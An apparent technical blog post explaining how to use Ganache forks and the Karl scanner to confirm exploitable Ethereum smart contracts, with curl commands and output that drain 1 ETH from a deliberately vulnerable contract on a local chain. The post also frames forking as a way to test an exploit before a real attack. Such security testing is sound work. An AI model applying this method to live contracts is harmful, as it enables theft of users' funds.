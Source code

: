 +++
title = "How to Exploit Ethereum in a Virtual Environment"
date = "2019-01-26T13:28:09+02:00"
draft = false
+++

> This is going to be a series about some of the techniques I implemented when designing [Karl](https://github.com/cleanunicorn/karl), a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![Long horses](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/longhorses.jpeg)

#### Virtual environment

A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember ["I accidentally killed it"](https://github.com/paritytech/parity-ethereum/issues/6995)?

Another great reason to use a virtual environment is that once we send transactions to the blockchain, any other person watching it will know how to exploit it; and they may not be as diligent as you about [responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure) to the creators of the application.

Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack. This could be part of a [security CTF](https://ctftime.org/ctf-wtf/) if not the real world.

#### How to setup the virtual environment

You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.

Being part of the [Truffle Framework](https://truffleframework.com/), the smart contract development environment, [Ganache](https://truffleframework.com/ganache) is your on demand personal Ethereum blockchain, perfect for local development… and hacking!

Whenever you need a private blockchain to develop your dApp, Ganache is your answer. Running a [geth](https://github.com/ethereum/go-ethereum) or [parity](https://www.parity.io/) node can be too much of a hassle, as it consumes plenty of resources and is not as easy to set up as Ganache.

You can install and run Ganache in just 2 commands (if you have [NodeJS](https://nodejs.org/en/) installed)

```console
$ npm install -g ganache-cli
$ ganache-cli
```

And you have your own personal blockchain.

A little-known feature of Ganache is **forking** another blockchain. You can think about this as **cloning** **an existing blockchain**, even if this is not exactly what happens under the hood.

#### This is how you fork the mainnet

```console
$ ganache-cli -f https://mainnet.infura.io
```

And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```console
$ ganache-cli -f https://mainnet.infura.io@100
```

This will provide a **blockchain clone** that it is safe to play with, it will create a local instance and you can send transactions and deploy new contracts, run your exploit, check its validity. All of this without touching the _real blockchain_, without anyone else knowing what you’re doing and without self destructing libraries by mistake.

> A lot of people had questions how does it actually copy all of the blockhain state so quickly. The answer is "It doesn't" it gets the state on demand. If your contract needs some state if it doesn't already have it locally it will pull it from the blockchain and cache it.

### Exploiting in a virtual environment walk-through

> This is where we start to go into details, you need a few things installed

In the following example you will:

* Run Karl and monitor for vulnerable contracts
* Fork the chain after we find a vulnerable contract
* Test the exploit and see if we stole some Ether

#### Karl

If you don’t know about Karl, go to the Github page and star the project. It helps you find vulnerable contracts on Ethereum.

[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)

> If you find any bug or have some problems running Karl, please [report an issue](https://github.com/cleanunicorn/karl/issues).

Karl is available as a pip package, just install it by running:

```console
$ pip install --user karl
```

For this example we can run our own private chain (which in practice would be the real chain) and deploy a vulnerable contract holding some Ether.

We start a private Ganache instance.

```console
$ ganache-cli -d
```

Start Karl and monitor for new contracts.

```console
$ karl --rpc localhost:8545
```

In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```

And we’re going to deploy a vulnerable contract ourselves.

This curl request deploys a vulnerable contract along with 1 Ether.

```console
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```

Karl found a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722

Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```

Now we can fork the chain and check the vulnerability ourselves.

#### Forking the chain

The original chain is located at `http://localhost:8545`, because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```console
$ ganache-cli -f [http://localhost:8545](http://localhost:8545) -d -p 9545
```

Each flag explained:

* `-f [http://localhost:8545](http://localhost:8545)` tells Ganache what chain to fork
* `-d` runs Ganache in deterministic mode, the same wallets are generated every time
* `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)

Once the fork is up and running we can send the transaction that Karl reported and see if we successfully stole the contract’s ETH.

Check initial balance for address `0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`

```console
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x56bc75e2d63100000"}
```

Our current balance is `0x56bc75e2d63100000` which is exactly 100 ETH in hex format.

#### Exploiting the contract

We send the transaction Karl reported

```console
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545

{
    "id": 1,
    "result": "0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"
}
```

We see a successful response with the transaction hash in the result.

#### Checking the final balance

Last thing to do is get the final balance.

```console
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x579a71129ec175000"}
```

There we go

* `0x56bc75e2d63100000` = `100 ETH` initial balance
* `0x579a71129ec175000` = `100.99971444 ETH` final balance

Doing the math we see that the difference is almost 1 Ether, the initial Ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![Boom!](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/boom.jpeg)Boom! Hacked!

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![Blockchain clone and exploit](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/fork.png)

All this goodness is already implemented and packaged for you.

[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
